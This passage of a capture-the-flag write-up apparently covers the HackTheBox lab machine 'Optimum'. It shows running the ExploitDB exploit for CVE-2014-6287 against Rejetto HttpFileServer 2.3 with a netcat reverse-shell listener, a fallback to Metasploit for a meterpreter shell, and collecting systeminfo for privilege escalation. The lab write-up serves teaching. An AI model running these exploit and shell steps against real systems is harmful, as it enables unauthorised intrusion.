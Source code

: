 2. Only one port open, Rejetto HttpFileServer 2.3... from the looks of it our VULN script found a few hits this one too. Let's google dork the hell out of this vulnerability.
3. ExploitDB has something juicy. CVE-2014-6287.

# FootHold

4. Let's download the exploit and run it. Had to change the IP address and port inside the python exploit we've download first using gedit.
5. Now let's start a listener
   ```
   nc -nvlp 4444
   ```
6. And let's run the exploit
   ```
   python 39161.py 10.10.10.8 80
   ```
7. For some reason I cant make it work, I can't get the shell to open from my listener.
8. Pivoting to MSFCONSOLE. We'll search for REJETTO and there is only one result from this one.
9. Set RHOSTS and LHOST, and after some time we get our meterpreter shell.
10. From here we can get the user flag.

# PrivEsc to ROOT

11. We invoke the `sysinfo` command in the meterpreter shell so that we can enumerate the machine further and we found these details
    ```
    meterpreter > sysinfo
    Computer        : OPTIMUM
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : el_GR
    Domain          : HTB
    Logged On Users : 1
    Meterpreter     : x86/windows
    ```
12. Googling for exploit on the OS and its version we found 39719 from ExplotDB but me introduce you guys to a new methodology that I learned in this machine from reading other write-ups. The gist of it is, we can download the sysinfo of this machine and then download the python script the matches the systeminfo of the machine to known vulnerabilities that we can try.
13. First let's download the systeminfo from our meterpreter shell.

    first

    ```
    meterpreter > execute -f "cmd.exe /c systeminfo > systeminfo.txt"
    ```

    then

    ```
    meterpreter > download systeminfo.txt

    [*] Downloading: systeminfo.txt -> /home/schoon3r/HTB/systeminfo.txt
    [*] Downloaded 3.26 KiB of 3.26 KiB (100.0%): systeminfo.txt -> /home/schoon3r/HTB/systeminfo.txt
    [*] download   : systeminfo.txt -> /home/schoon3r/HTB/systeminfo.txt
    ```
